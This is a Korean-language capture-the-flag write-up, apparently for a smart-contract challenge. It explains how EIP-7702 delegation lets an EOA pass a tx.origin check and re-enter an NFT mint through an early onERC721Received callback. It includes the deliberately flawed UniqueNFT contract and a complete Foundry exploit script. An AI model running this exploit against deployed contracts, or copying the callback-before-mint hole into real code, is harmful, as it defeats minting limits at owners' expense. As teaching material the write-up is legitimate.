

## 문제
### 지문
Welcome to UniqueNFT, where any user can get its very own shiny digital badge.
Humans with EOAs? You mint for free, no questions asked. Proof of Humanity for the win!
Smart contracts? Sorry bots, pay the toll –\> one whole ether!
But here’s the twist: one badge per address, no greedy hoarding allowed.
And forget about trading, these things stick like glue.
It’s like blockchain tattoos, once it’s yours, it’s yours forever.
Think you can outsmart the rules and own more a single NFT? Prove it.
### 코드
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.30;

import { ERC721 } from "openzeppelin-contracts-v5.4.0/token/ERC721/ERC721.sol";
import { ERC721Utils } from "openzeppelin-contracts-v5.4.0/token/ERC721/utils/ERC721Utils.sol";
import { ReentrancyGuard } from "openzeppelin-contracts-v5.4.0/utils/ReentrancyGuard.sol";

contract UniqueNFT is ERC721, ReentrancyGuard {

    uint256 public tokenId;

    constructor() ERC721("UniqueNFT", "UNFT") {}

    /// @notice Function to mint NFTs for smart contracts only
    /// @notice Smart contracts need to pay a fee to mint the NFT
    /// @dev Has reentrancy protection just in case the smart contract would try to do some bad stuff
    function mintNFTSmartContract() external payable nonReentrant returns(uint256 mintedNFT) {
        require(msg.value == 1 ether, "fee not sent");
        mintedNFT = _mintNFT();
    }

    /// @notice Function to mint NFTs for EOAs only
    /// @notice EOAs are exempt from minting the NFT
    function mintNFTEOA() external returns(uint256 mintedNFT) {
        require(tx.origin == msg.sender, "not an EOA");
        mintedNFT = _mintNFT();
    }

    function _mintNFT() private returns(uint256) {
        require(balanceOf(msg.sender) == 0, "only one unique NFT allowed");
        uint256 _tokenId = tokenId++;
        ERC721Utils.checkOnERC721Received(address(0), address(0), msg.sender, _tokenId, "");
        _mint(msg.sender, _tokenId);
        return _tokenId;
    }

    function _update(address to, uint256 _tokenId, address auth) internal override returns (address) {
        address from = super._update(to, _tokenId, auth);
        require(from == address(0), "transfers not allowed");
        return from;
    }
}
```
## 배경지식
---
ERC721에서 컨트랙트 주소로 NFT를 보내면 수신자가 NFT를 받을 수 있는 컨트랙트인지 확인해야 한다. 이때 수신자에게 `onERC721Received`를 호출하고, 수신자가 정해진 selector를 반환하면 전송을 허용한다.
보통은 상태를 먼저 바꾸고 콜백을 호출한다. 그래야 콜백 중에 다시 들어와도 이미 바뀐 `balanceOf`, `ownerOf` 같은 상태를 기준으로 검사가 된다. 반대로 외부 호출이 상태 변경보다 먼저 일어나면 콜백에서 아직 바뀌지 않은 상태를 이용할 수 있다.
---
일반 EOA는 코드가 없으므로 `onERC721Received` 콜백을 받을 수 없다. 일반 컨트랙트는 코드가 있지만 `tx.origin == msg.sender`를 만족할 수 없다.
EIP-7702를 쓰면 EOA가 특정 구현 컨트랙트로 실행을 위임할 수 있다. 계정 주소는 그대로 EOA 주소지만, 그 주소로 호출이 오면 위임된 코드가 실행된다. target 입장에서는 `msg.sender`가 player EOA이고 `tx.origin`도 player EOA인데, 동시에 `msg.sender` 주소에는 콜백 코드가 붙어 있는 상태가 된다.
이 문제는 EOA와 컨트랙트를 나눠서 처리하려고 했지만, delegated EOA가 그 경계를 무너뜨린다.
## 문제 코드 분석
---
먼저 민팅 경로를 보자.
```solidity
function mintNFTSmartContract() external payable nonReentrant returns(uint256 mintedNFT) {
    require(msg.value == 1 ether, "fee not sent");
    mintedNFT = _mintNFT();
}

function mintNFTEOA() external returns(uint256 mintedNFT) {
    require(tx.origin == msg.sender, "not an EOA");
    mintedNFT = _mintNFT();
}
```
`mintNFTSmartContract`는 1 ether를 요구하고 `nonReentrant`가 붙어 있다. 컨트랙트 경로에서 callback reentrancy를 시도하면 이 함수에서는 막힌다.
반면 `mintNFTEOA`는 `tx.origin == msg.sender`만 본다. 일반적인 컨트랙트 호출은 이 조건을 만족하지 못하지만, EIP-7702로 player EOA에 코드를 붙이면 target에는 여전히 player EOA가 직접 호출한 것처럼 보인다.
---
one NFT 제한은 여기서 걸린다.
```solidity
function _mintNFT() private returns(uint256) {
    require(balanceOf(msg.sender) == 0, "only one unique NFT allowed");
    uint256 _tokenId = tokenId++;
    ERC721Utils.checkOnERC721Received(address(0), address(0), msg.sender, _tokenId, "");
    _mint(msg.sender, _tokenId);
    return _tokenId;
}
```
one NFT 제한은 `balanceOf(msg.sender) == 0`이다. 문제는 이 검사를 통과한 뒤 바로 `_mint`하지 않고, 먼저 `ERC721Utils.checkOnERC721Received`로 외부 호출을 한다는 점이다.
이 호출이 player EOA의 delegated code에 도달하면 `onERC721Received`가 실행된다. 이 순간 아직 `_mint`가 실행되지 않았으므로 player의 balance는 여전히 0이다. 따라서 콜백 안에서 다시 `mintNFTEOA`를 호출하면 같은 검사를 다시 통과한다.
첫 번째 `mintNFTEOA`는 balance 0을 확인하고 콜백을 호출한다. 콜백에서 두 번째 `mintNFTEOA`를 호출해도 아직 첫 번째 NFT가 mint되지 않았으므로 balance는 0이다. 두 번째 호출이 먼저 `_mint`를 끝내고, 이후 첫 번째 호출이 이어서 `_mint`를 끝내면 같은 주소가 NFT 2개를 갖게 된다.
---
전송은 별도로 막혀 있다.
```solidity
function _update(address to, uint256 _tokenId, address auth) internal override returns (address) {
    address from = super._update(to, _tokenId, auth);
    require(from == address(0), "transfers not allowed");
    return from;
}
```
`_update`는 `from == address(0)`만 허용한다. 즉 mint는 가능하지만 transfer는 막힌다.
다른 주소에서 mint한 뒤 player에게 옮기는 방식은 사용할 수 없다. exploit은 반드시 최종 소유자인 player 주소 자체로 여러 번 mint해야 한다.
## 풀이
player EOA에 `onERC721Received`를 실행할 코드를 붙이면 된다. `UniqueNFTDelegation`을 배포한 뒤 `vm.signAndAttachDelegation`으로 player EOA가 그 구현을 위임하게 만든다.
그 다음 player 주소로 `attack`을 호출한다. 이 호출은 delegated code에서 실행되지만, target의 `mintNFTEOA`를 호출할 때 target이 보는 `msg.sender`는 player 주소다. 그래서 `tx.origin == msg.sender`를 통과한다.
첫 mint가 `checkOnERC721Received`에 도달하면 target이 player 주소의 `onERC721Received`를 호출한다. delegated code의 콜백은 아직 balance가 증가하기 전이라는 점을 이용해서 `mintNFTEOA`를 한 번 더 호출한다. callback reentrancy는 EOA 민팅 경로로 들어가므로 `nonReentrant`가 붙은 유료 컨트랙트 민팅 경로와도 무관하다.
### 익스플로잇
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

import "forge-std/Script.sol";

interface IUniqueNFT {
    function balanceOf(address owner) external view returns (uint256);
    function mintNFTEOA() external returns (uint256);
}

interface IERC721ReceiverLike {
    function onERC721Received(address operator, address from, uint256 tokenId, bytes calldata data)
        external
        returns (bytes4);
}

interface IUniqueNFTDelegation {
    function attack(address uniqueNFT, uint256 desiredBalance) external;
}

contract UniqueNFTDelegation is IERC721ReceiverLike {
    IUniqueNFT private target;
    uint256 private targetMints;
    uint256 private callbackCount;

    function attack(address uniqueNFT, uint256 desiredBalance) external {
        target = IUniqueNFT(uniqueNFT);

        uint256 currentBalance = target.balanceOf(address(this));
        require(desiredBalance > currentBalance, "already enough NFTs");

        targetMints = desiredBalance - currentBalance;
        callbackCount = 0;

        target.mintNFTEOA();
        require(target.balanceOf(address(this)) >= desiredBalance, "mint failed");

        delete target;
        delete targetMints;
        delete callbackCount;
    }

    function onERC721Received(address, address, uint256, bytes calldata) external returns (bytes4) {
        require(msg.sender == address(target), "only target");

        callbackCount++;
        if (callbackCount < targetMints) {
            target.mintNFTEOA();
        }

        return IERC721ReceiverLike.onERC721Received.selector;
    }
}

contract Sol38 is Script {
    uint256 private constant DESIRED_BALANCE = 2;

    function run() external {
        uint256 privateKey = vm.envUint("PRIVATE_KEY");
        address player = vm.addr(privateKey);
        IUniqueNFT uniqueNFT = IUniqueNFT(vm.envAddress("UNIQUE_NFT_INSTANCE"));

        vm.startBroadcast(privateKey);

        UniqueNFTDelegation delegation = new UniqueNFTDelegation();
        vm.signAndAttachDelegation(address(delegation), privateKey);

        IUniqueNFTDelegation(player).attack(address(uniqueNFT), DESIRED_BALANCE);

        vm.signAndAttachDelegation(address(0), privateKey);
        (bool cleared,) = player.call("");
        require(cleared, "clear delegation failed");

        require(uniqueNFT.balanceOf(player) >= DESIRED_BALANCE, "player needs two NFTs");

        vm.stopBroadcast();
    }
}
```

